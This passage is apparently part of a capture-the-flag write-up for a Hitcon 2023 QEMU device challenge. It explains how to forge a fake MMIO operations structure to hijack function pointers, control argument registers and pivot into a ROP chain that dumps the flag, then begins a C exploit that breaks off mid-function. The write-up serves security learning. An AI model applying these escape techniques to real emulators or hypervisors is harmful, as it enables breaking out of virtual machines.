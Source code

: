 ![mmio](https://github.com/nobodyisnobody/write-
ups/blob/main/Hitcon.Quals.2023/pwn/Full.Chain.-.Wall.Maria/pics/mmio.png?raw=true)

you can see the `mmio.ops` entry that points to another structure
`maria_mmio_ops` that contains functions pointers to the `read`, `write`
functions of the drivers.

So we can forge a fake `maria_mmio_ops` structure in the `maria->buff[]` and
make `maria->mmio.ops` points to it. When we will write or read in the memory
mapped region, our functions will be called instead of `maria_mmio_read`and
̀maria_mmio_write`.

The `maria->mmio.opaque` is interesting too, as it will be passed in `rdi` as
the first argument of the read/write function, so with it, we will control
`rdi`

and we will control `rsi`too, this is the offset at which we write from
beginning of memory mapped zone.

and `rdx` will be the value that we write to this offset.

So we can control the 3 arguments of the read/write function that will be
called.

The qemu run with the sandbox, so we can not use execve, so we will use `open`
, `read`, `write`to just dump the flag.

The author of the challenge (and my teammate too..), use a call to `mprotect`
to map the buffer `RWX`, and a jump to a shellcode to dump the flag..

For changing a bit , I will use a gadget to pivot stack on `rdi`pointed
memory, and will dump the flag with a small ROP payload.

Here is the exploit to do that:

```c  
#include <stdio.h>  
#include <string.h>  
#include <fcntl.h>  
#include <stdlib.h>  
#include <sys/mman.h>  
#include <unistd.h>  
#include <sys/io.h>  
#include <sys/types.h>  
#include <inttypes.h>

unsigned char *mmio_mem;

#define PAGE_SIZE 0x1000

void mmio_write(uint32_t addr, uint32_t value) {  
   *(uint32_t *)(mmio_mem + addr) = value;  
}

uint32_t mmio_read(uint32_t addr) {  
   return *(uint32_t *)(mmio_mem + addr);  
}

void set_src(uint32_t value) {  
   mmio_write(0x04, value);  
}

void set_off(uint32_t value) {  
   mmio_write(0x08, value);  
}

void get_buff() {  
   mmio_read(0x00);  
```